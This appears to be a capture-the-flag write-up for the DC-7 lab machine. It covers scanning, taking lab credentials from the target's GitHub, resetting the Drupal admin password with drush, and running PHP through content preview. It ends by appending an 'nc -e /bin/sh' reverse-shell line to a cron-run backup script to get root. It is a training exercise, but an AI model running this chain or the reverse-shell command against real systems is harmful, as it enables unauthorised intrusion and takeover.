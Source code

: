 

### **Netdiscover**

![discover](images/dc7/discover.png)

We use the tools called netdiscover scan hosts, we found the 192.168.0.106 is our target virtualbox host ip.

------

### **Namp**

![nmap](images/dc7/nmap.png)

We found some services  <u>HTTP</u>, <u>SSH</u>

------

### Solution

![home](images/dc7/home.png)

This a website powered by drupal, we have no user and the we use gobuster nothing .

according to this hint ==> so we findDC7USER  ==> Found the user may user twitter.

![twitter](images/dc7/twitter.png)

So i went into his github.

![git1](images/dc7/git1.png)

![git2](images/dc7/git2.png)

![git3](images/dc7/git3.png)

So we found his user **dc7user**, password **MdR3xOgB7#dW** luckily.

We logon with dc7user in web failed , so we login in ssh successfully!!!

![ssh](images/dc7/ssh.png)

![ls1](images/dc7/ls1.png)

We found something interesting file.mbox

![mbox](images/dc7/mbox.png)

We could guess /opt/scripts/backups.sh may be executed by crantab server.

![ls2](images/dc7/ls2.png)

So we should to get the privilege of user www-data. we try modify the admin password with drush

`drush user-password admin --password="admin"`

![modify_passwd](images/dc7/modify_passwd.png)

We login this Web with admin user.

![login](images/dc7/login.png)

![admin](images/dc7/admin.png)

Now we should look for somewhere that could execute our shell to get www-data

![content](images/dc7/content.png)

![page](images/dc7/page.png)

We can use content to preview out php code, but we should install php extension(downloaded from

 https://www.drupal.org/docs/8/system-requirements/php-requirements)

Then we can config this extension.

![conifg](images/dc7/conifg.png)

![shell1](images/dc7/shell1.png)

![www-data](images/dc7/www-data.png)

we get the user www-data, so we echo 'nc -e /bin/sh 192.168.0.105 233' to reverse our shell with root

![shell2](images/dc7/shell2.png)

![shell3](images/dc7/shell3.png)

now we' re root and we cd /root

![flag](images/dc7/flag.png)

Successfully!!!!

------

**That' all , Thanks for your watching**